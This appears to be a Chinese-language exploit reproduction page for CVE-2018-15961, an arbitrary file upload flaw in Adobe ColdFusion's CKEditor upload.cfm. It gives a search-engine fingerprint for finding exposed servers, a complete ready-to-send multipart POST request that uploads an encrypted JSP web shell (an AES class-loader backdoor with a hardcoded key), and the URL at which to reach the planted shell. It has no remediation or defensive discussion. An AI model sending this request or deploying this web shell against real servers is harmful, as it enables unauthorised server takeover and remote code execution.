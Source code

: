# Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

<a-checkbox checked>Adobe ColdFusion </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Adobe-ColdFusion" </a-checkbox></br>

## 漏洞复现

产品官网

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628245289026-29811461-bb3c-4fc7-b594-b5b005f6e5f3.png)

发送数据包上传任意文件

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628245376410-1ad8424a-c8ee-4894-86f0-1f858f29b230.png)

再访问路径 `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628245895622-d98538f1-a05e-4356-b734-8b1f361a5c40.png)